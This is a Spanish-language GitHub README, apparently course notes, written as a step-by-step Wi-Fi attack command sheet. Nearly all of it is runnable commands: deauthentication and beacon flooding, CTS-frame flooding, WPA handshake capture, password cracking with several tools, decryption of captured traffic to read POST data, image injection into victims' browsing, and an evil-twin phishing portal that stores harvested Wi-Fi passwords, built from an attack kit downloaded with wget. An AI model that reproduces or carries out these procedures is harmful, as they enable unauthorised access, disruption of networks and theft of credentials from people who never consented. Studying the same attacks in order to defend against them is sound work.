

# Hacking-Wifi

### Todo esto fue posible gracias a Macelo Vázquez, Ve y siguelo. **[¡S4vitar!](https://www.linkedin.com/in/s4vitar/)**  y entra a su academia **[¡Hack4u!](https://hack4u.io/)** 

Diferentes pasos para vunerar una rede wifi, más adelante subire imágenes para mejor entendimiento

	sudo apt-get install linux-headers-$(uname -r) build-essential dkms git --> instlacion de paquete necesarios
	sudo git clone https://github.com/morrownr/8814au.git
	lsusb
	iwconfig
	macchanger -s wlan0
	sudo airmon-ng start wlan0
	sudo ifconfig wlan0 up
	pkill dhclient && pkill wpa_supplicant --> mata procesos del dhcclient que es agregado por dhcp del router
	killall dhclient wpa_supplicant 2>/dev/null --> otra forma de matar
	service network-manager restart --> en una version anterior 
	systemctl restart networking.service --> reiniciar servicio en nuevas versiones, aun o probado dicho comanod
	/etc/init.d/networking restart --: reiniciar cada vez que cerramos el modo monitor
	sudo airmon-ng check kill --> mata todo proceso conflictivo
	sudo service NetworkManager restart --> reinicia el network de kali
	sudo macchanger -l --> lista todas las mac
	sudo macchanger -l | grep -l "Apple"
	sudo macchanger -l | grep "NATIONAL SECURITY AGENCY" --> busca una mac
	ifconfig wlan0 down
	sudo macchanger --mac=00:20:91:da:bebe:91 wlan0 --> cambia la mac
	macchanger -s wlan0
	sudo airodump-ng wlan0 --> observa toda rede wifi y clientes autenticados
---
### Ver tráfico de accespoint y desautenticación
	sudo airodump-ng -c 1 wlan0
	sudo airodump-ng -c 1 --essid nombre-red wlan0 --> filtra el canal y el nombre wifi
	sudo airodump-ng -c 1 --bssid numerp-mac wlan0
	sudo airodump-ng -c 1 -w pentesting_wifi --bssid nombre-mac wlan0 --> guarda toda la captura en un archivo y se obtiene el handshake pero puede ser un falso positivo como un positivo
	watch -n 1 du -hc pentest_test_hacking-01.cap --> muestra el aumento del tamaño del archivo en vivo por minutos 
	sudo aireplay-ng -0 10 -e NOMBRE-RED -c mac-host wlan0 --> desentautentica un host especifico
	sudo aireplay-ng -0 10 -e nombre-red -c FF:FF:FF:FF:FF:FF wlan0 --> desentautentica de manera global
	sudo aireplay-ng -0 10 -e nombre-red wlan0 --> recomendable de 10 a 15 paquetes porque se pierde en el camino
	sudo aireplay-ng -0 0 -e nombre-red -c mac-dispositovo_conectado wlan0 --> desentautica indefinitivamente de un host hasta que el atacador pare el ataque.
	sudo aireplay-ng -1 0 -e nombre-red -a mac-bssid -h 00:0c:f1:da:de:af wlan0 --> sirve para conectar una falsa autenticación  pero hay que buscar los tres primeros macs con macchanger -l y usar uno de los tres
### Secuestro de ancho de banda-obtener el handshake
	sudo airodump-ng -c 1 -w captura --bssid mac-accespoint wlan0 --> Interceptar a un access/point
	tshark -r captura-01.cap -Y "wlan.fc.type_subtype=0x28" -Tjson 2>/dev/null --> filtrar las tramas cts en modo json
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0x28" -Tfields -e wlan.duration 2>/dev/null | sort -u --> filtra por duración y ordena por palabras unicas sin repetirlas.
	sudo wireshark captura.cap > /dev/null 2>&1 & disown --> carga wireshark siendo libre sin depender de un proceso padre
	exportamos un paquete especifico y guardamos con exttensión pcap
	file ctsframe.pcap
	sudo apt install ghex -y --> abre en hexadecimal la captura guardada
	sudo ghex ctsframe.pcap > /dev/null 2>&1 & 
	disown

	
	No refleja la duración, por ende no es bueno capturarlo con airodump y es mejor con wireshark
	sudo wireshark > /dev/null 2>&1 &
	disown
	filtramos con "wlan.fc.type_subtype=0x28" y guadamos el paquete con extesión pcap
	sudo ghex ctsframew > /dev/null 2>&1 & --> abre el paquete en hexadecimal
	python --> corremos para comprobar los valores hexadecimales
	0x0076
	python3 --< corremos para obtener un hexadecimal
	hex(5000) --> obtener 5000 microsegundos  0x1388
	cambiamos los microsegudos de ctsframew.pcap
	sudo wireshark  ctsframe.pcap > /dev/null 2>&1  --> vemos los cambios a 5000 microsegundos
	sudo wireshark > /dev/null 2>&1 & --> abrimos wireshark para capturar los paquetes 
	disown
	sudo tcpreplay --intf1=wlan0 --topspeed --loop=2000 ctsframew.pcp 2>/dev/null --> replica pauetes del ctsframew.pcap hacia wifi-vic o punto de acceso y con wireshark abierto veremos como sucede aquello
	sudo wireshark > /dev/null 2>&1 & --> abrimos wireshark para capturar los paquetes modificados del ctsframw.pcap el cual inunda el punto de acceso
	disown
---
### ataque beacon y dissasosation con mdk3 (activo)
	satura con puntos de accesos falsos a los clientes, oblingadolos a desconectarse devido a la saturación del access ponit que pasan por mismo canal
	for i in $(seq 1 10); do echo $i; done
	for i in $(seq 1 10); do echo "Networkfree"$i >> redes.txt; done
	sudo airodump-ng wlan0 --> escaneamos para ver que que canal inundar
	sudo mdk3 wlan0 b -f redes.txt -a -s 1000 -c 1 --> ataca con el deacon creando varios puntos de accesp en un mismo canal
	sudo mdk3 wlan0 b -c 1 --> crea accesos ramdom, es decir aleatorios
	ataque dissasosation implica la dedautenticación dirigida, donde se puede gesitionar un archivo de black o white list, iyectando clientes.
	sudo airodump-ng -c 1 --essid nombre-red wlan0 --> visualiza el tráfico poro un unico canal y un access point más sus hosts conectados
	 sudo mdk3 d --> desautentica a hosts con un black o white list
	 creamos un archivo con las macs de host a desautenticar
	 sudo nano blacklist
	 sudo mdk3 wlan0 d -w blacklist -c 1
	 sudo mdk3 wlan0 m -t mac-access-point --> supuestamente apaga un router pero no ha sido probado
---
### Instalar Pyrit y obtener el hanshake de forma pasiva
	cd /opt 
	 sudo wget https://old-releases.ubuntu.com/ubuntu/pool/universe/s/scapy/python-scapy_2.3.2-0.1_all.deb
	sudo dpkg -i python-scapy_2.3.2-0.1_all.deb 
	sudo git clone https://github.com/JPaulMora/Pyrit.git
	sudo apt install python2
	sudo apt install python2-dev 
	sudo apt-get install libpcap0.8-dev
	sudo apt install libpcap-dev 
	sudo python2 setup.py clean
	sudo python2 setup.py build
	sudo python2 setup.py install
	sudo pyrit
	greo -r -i "Compile_aesni"
	sudo nano cpyrit/cpufeatures.h 
	borrar las siguiente lineas:
		#if (defined(__AES__) && defined(__PCLMUL__))
		    #define COMPILE_AESNI
		#endif 
	sudo nano cpyrit/_cpyrit_cpu.c -c --> la opción -c ayuda a imprimir con numeros de lineas y poder ver en que linea estamos
	sudo nano ~/.nanorc --> ayuda a configurar mejores las entradas de visualización en el nano
		set autoindent
		set tabsize 4
		set linenumber
		set smooth
		set nowrap
	borramos lo de la linea 1080 hasta 1143 y todo lo relacionado con COMPILE_AESNI que esta en la linea 2325-2331 | 44-46
		    #ifdef COMPILE_AESNI
		    if (cpufeatures & HAVE_AESNI)
		    {
		        PlatformString = PyString_FromString("SSE2/AES");
		        ccmp_encrypt = ccmp_encrypt_aesni;
		    }
		    #endif
		    #ifdef COMPILE_AESNI
			    #include <wmmintrin.h>
			#endif
	sudo python2 setup.py clean
	sudo python2 setup.py build
	sudo python2 setup.py install
	sudo pyrit -r captura-01.cap analyze --> se obtiene varios handshakes
	sudo airodump-ng -c 1 -w captura --bssid mac-accespoint wlan0 --> captura el tráfico de un access point
	sudo aireplay-ng -0 10 -e TEST-HACKING -c mac-host wlan0 --> desautentica un host especifico con 10 paquetes pero para este caso usamos el modo global
	sudo aireplay-ng -0 10 -e TEST-HACKING -c ff:ff:ff:ff:ff:ff --> desautentica de manera global
	sudo pyrit -r captura-01.cap analyze --> analiza las capturas guardadas
	sudo pyrit -r captura-01.cap analyze | grep "handshake" | wc -l
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==4" 2>/dev/null --> captura los pauqetes probe request
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==5" | wc -l 2>/dev/null --> captura los pauqetes probe responde
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" 2>/dev/null --> captura los pauqetes association request
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tjson 2>/dev/null | grep "mac-host" --> filtra los 3 wlans ta-sa-addr (trasmisoras-source addres -addes)
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null --> filtra las wlans trasnmisoras
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' --> la ultima salida da un salto de linea
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==0" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' | sort -u
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==1" 2>/dev/null  --> filtra peticiones de association response
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==8" 2>/dev/null --> filtra paquetes beacon que es association
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==8" -Tjson 2>/dev/null
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==11" 2>/dev/null --> filtra paquetes de autenticacion 
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==11" -Tfields -e wlan.addr 2>/dev/null | tr ',' '\n' --> filtra macs de paquetes de autentiación
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" --> filtra paquetes de desautenticacón, los paquetes debieron ser desautenticados de manera global para obtener aquella informacion
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" -Tjson 2>/dev/null | grep -i "ff:ff:ff:ff:ff:ff" --> refleja tres wlans ra-ta-sa-da-addr y la interesante es la destination addres da
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null --> filtra el destination address da
	sudo tshark -r captura-01.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null | sort -u
	sudo tshark -r captura-01-cap -Y "wlan.fc.type_subtype==10" 2>/dev/null --? filtra paquetes de desasosiación, recordar que nose puede capturar todo paquete ya que se pierde en el camino
	sudo tshark -r captura-01-cap -Y "wlan.fc.type_subtype==10" 2>/dev/null --> captura paquetes ctsframe
	cat /etc/login.defs | grep -i "ENCRYPT_METHOD" --> logra ver el tipo de encriptado
	file captura-01.cap --> ve el tipo de archivo
	du -hc captura-01.cap --> ve el tamaño del archivo
	sudo aircrack-ng -J miCap captura-01.cap --> covierte la extesión cap en hccap
	du -hc micap.hccap
	sudo hccap2john micap.hccap > mi_hash --> saca el hash del archivo micapp.hccap
	sudo john --wordlist=/usr/share/wordlists/rockyou.txt mi_hash --> creaquea el hash
	sudo jhon --show mi_hash
	sudo aircrack-ng -w --wordlist=/usr/share/wordlists/rockyou.txtt captura-01.cap --> creaquea la contraseña del wifi
	locate john.pot --> indica donde estas los hashes crakeados
	cat /home/deed/.john/john.pot
	sudo pyrit -r captura-01.cap analyse --> visualiza el nombre del access point capturado
	sudo pyrit -r captura-01.cap -e name-access-point -i /usr/share/wordlists/rockyou.txt attack_passthrough --> creaquea la contraseña mediante el hash capturado
	sudo cowpatty -r captura-01.cap -f /usr/share/wordlists/rockyou.txt -s name-access-point --> crackea la hash
---
### Mejorando velocidad en crackeo de contraseñas
	sudo airolib-ng password-airolib --import passwd /usr/share/wordlists/rockyou.txt --> importa a un nuevo archivo, muda el rocyou a un sql
	file passwords-airolib
	echo "TEST-HACKING" > essid.lst --> creamos varias listas de nombres de access-point 
	cat !$
	sudo airolib-ng passwords-airolib --import essid essid.lst --> importa el listado al nuevo archivo
	sudo airolib-ng passwords-airolib --stats --> muestra el estado 
	sudo airolib-ng passwords-airolib --clean all --> limpia lineas erroneas
	sudo airolib-ng passwords-airollib --batch --> crea un diccionario de claves computadas y parar cuando se crea ecesario
	kill %%
	sudo aircrack-ng -r passwords-airolib captura-01.cap --> crackea el hash
	sudo genpmk -f /usr/share/wordlists/rockyou.txt -s TEST-HACKING -d dic.genpmk --> importa en una salida las contrase;as y el name-access/point en una rainbow table
	file dic.genpmk --> se lo fucionara con cowpatty
	sudo cowpatty -d dic.genpmk -r captura-cap -s TEST-HACKING --> crackea de forma mas rápida cuando usa rainbow Table
	sudo pyrit -e TEST-HACKING -i dic.genpmk -r captura-01.cap attack_cowpatty --> crakea a partir de cowpatty, es mucho más rápido
	sudo pyrit -i /usr/share/wordlists/rockyou.txt import_passwords --> imprtamos el diccionario en un nuevo archivo
	sudo pyrit -e TEST-HACKING create_essid --> crea un archivo con essid
	sudo pyrit batch --> crea una bd pero demorará según el diccionario y hay que dejar que lo termine
	sudo pyrit -r captura-01.cap attack_db
--- 
### resultados de crackeo de contraseñas con diferentes herramientas
	john                                        --> 2 seg      | 500         k/s
	aircrack-ng                                 --> 2 seg      | 5273        k/s
	pyrit (attack_passthrough)                  --> 29 seg     | 1583        k/s
	cowpatty                                    --> 17.51 seg  | 705         k/s
	airolib-ng                                  --> 0.2618 seg | 274.652     k/s
	cowpatty frente a rain table                --> 0.03 seg   | 473.499     k/s
	pyrit frente a rain table (attack_cowpatty) --> 0.01 seg   | 2.302.808   K/s 
	pyrit (attack_db)                           --> 0.000x seg | 138.418.611 k/s
---
### Captura el tráfico con bettercap
	sudo ./bettercap -iface wlan0 --> pone a correr ebettercap
	wifi.recon on --> activa el modo reconocimiento
	set wifi.show.sort clients desc --> refleja de manera descendiente a los clientes
	set ticker.commands 'clear ; wifi.show' --> crea un ticket para dar paso a poner de manera grafica
	ticker on --> activa el ticker 
	wifi.recon.channel 1 --> habilita el canal uno para capturar tráfico y el hash que nos dara la ruta de donde se guarda el hash pero no lo guarda completo ya que algunos access-point no esta bien segurisados
	wifi.deauth mac-wifi --> desautentica el access-point
	ctrl+z --> deja en segundo plano el proceso
	kill % --> mata el proceso 
---
### atacando con bettercap
	sudo bettercap -iface wlan0
	wifi.recon on
	wifi.show
	wifi.assoc all --> captura hashes
	hcxdumptool -i wlan0 -o captura2 --enable_status=1 --> captura un dump de los hashes pero ya no
	file captura2
	sudo hcxpcaptool -z myhashes captura2 --> exporta los hashes al archivo myhashes
	cat myshashes
	john --show myhashes --> para ver si hay un hasheo anterior y se guarda en /home/deed/.john/john.pot
	john --wordlists=/usr/share/wordlists/rockyou.txt myshashes
	hashcat --example-hashes | grep "16800" -C 2
	sudo hashcat -m 16800 -a 0 myhashes /usr/share/wordlists/rockyou.txt --> creakea el hash y demora unos minutos
	sudo hashcat -m 16800 --show myhashes
---
### Capturar tráfico y desincriptar http
	sudo airdecap-ng -e TEST-HACKING -p angel1*TH28 captura-01.cap --> Obtiene y desencripta el tráfico guardandolo en un neuvo archivo dec.cap
	sudo thsark -r captura-01-dec.cap -Y "http" 2>/dev/null --> filtra tráfico http
	sudo thsark -r captura-01-dec.cap -Y "http.request.method==POST" 2>/dev/null --> filtra tráfico post
	sudo tshark -r captura-01-dec.cap -Y "http.request.method==POST" -Tjson 2>/dev/null --> se buscará un nuevo campo para filtrar
	sudo tshark -r captura-01-dec.cap -Y "http.request.method==POST" Tfields -e http.file.data 2>/dev/null
---
### xeroxploit para remplazo de imagenes en pag web
	cd /opt
	sudo git clone lion/xesploit y especificar que máquina es para instalar
	 python3 xerosploit.py
	 scan --> detecta quipos conectados al acess-point
	 ip-mvic --> ip de la maquina atacar
	 help
	 replace
	 run
	 /home/deed/imagen.png
---
### EvilTwin
	cd /etc
	nano dhcpd.conf --> se crea un nuevo archivo de configuración para el dhcp
		authoritative;
		default-lease-time 600;
		max-lease-time 7200;
		subnet 192.168.1.128 netmask 255.255.255.128 {
			option subnetmask 255.255.255.128;
			option broadcast-address 192.168.1.255;
			option routers 192.168.1.129;
			option domain-name-servers 8.8.8.8;
			range 192.168.1.130 192.168.1.140;
		}
	ifconfig eth0 --> vemos la dirección ip para configurar el dhcpd.conf creado anterior
	Tener en cuenta que hay que tenerlo descomprimido en el /var/www/html
	sudo wget https://cdn.rootsh3ll.com/u/20180724181033/Rogue_AP.zip
	unzip Rogue_Ap.zip
	cd /var/www/html
	sudo mv /opt/Rogue_AP/* .
	service apache2 start && service mysql start --> creamos la base de datos para Rogue
	localhost --> levantamiento de un login
	cat index.html | grep "action" --> visualiza el usuario y contraseña de base de datos que intenta conectarse
	cat dbconnect.php --> configuración de base de datos
	sudo mysql -uroot --> conección a la bd
	create database rogue_AP;
	use rogue_AP
	cat dbconnect.php --> abirmos de otra consola, recuerde que esta en el /var/www/html
	create table wpa_keys(password1 varchar (32), password2 varchar (32)); --> crearlo dentro de rogue_AP
	show tables
	describe wpa_keys; --> indica una tabla y sus campos
	INSERT INTO wpa_keys (password1, password2) values ('deed', 'deed');
	show tables
	select * from wpa_keys;
	create user 'fakeap'@'localhost' indentified by 'fakeap'; --> crear un nuevo user
	show databases;
	grant all privileges on rogue_AP.* to 'fakeap'@'localhost'; --> habilita todos lo spriivilegios
	localhost --> abrimos el navegador e ingresamos uns credenciales y se guardara en la base de datos creada
	select * from wpa_keys --> verifica las credecniales guardadas
	sudo airbase-ng -e WIFI -c 7 -P wlan0 --> crea un punto de acceso falso
	cat /etc/dhcpd.conf --> no hay que perder de vista porque sirve para ver la estructura
	sudo ifconfig at0 192.168.1.129 netmask 255.255.255.128 --> crea un nuevo punto de interfaz teniendo en cuenta la escructura de dhcp.conf
	sudo route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129
	echo 1 > /proc/sys/net/ipv4/ip_forward --> habilitar enrutamiento en el equipo para que las reglas de iptables tengan sentido
	ifconfig --> visualiza la nueva interfaz
	iptables --flush --> limpieza de las iptables
	iptables --table nat --flush
	iptables --delete-chain
	iptables --tables nat --delete-chain
	iptables -s
	iptables -L --> visualizas itables activas
	sudo iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE --> se crea reglas para el portalfradulento
	sudo iptables --append FORWARD --in-interface at0 -j ACCEPT --> el forward se aplica sobre un interfaz interna
	sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $(hostname -I | awk '{print $1}'):80 --> no olvidare que va la ip de la maq real y redirecciona el trafico a la ip+ata
	sudo iptables -t nat -A POSTROUTING -j MASQUERADE --> redirije el trafico al 
	cat /etc/dhcpd.conf 
	touch /var/ib/dhcp/dhcpd.leases --> crearlo si llegase a pedir la mata
	sudo dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcpd.pid at0 --> indicamos donde almacenaremos nuestro pid
---
### EvilTrush
	cd opt
	sudo git clone
	cd evilTrust
	./evilTrust.sh -m Terminal
	./evilTrust.sh
	wlan0
	wifiGratis
	9
	google-login

	bluesnarfer -b DE:AD:BE:EF:12:23 -i --> buscará el nombre del dispositovo relacionado abluteeooth
---
### Todo esto fue posible gracias a Macelo Vázquez, Ve y siguelo. **[¡S4vitar!](https://www.linkedin.com/in/s4vitar/)**  y entra a su academia **[¡Hack4u!](https://hack4u.io/)** 
	
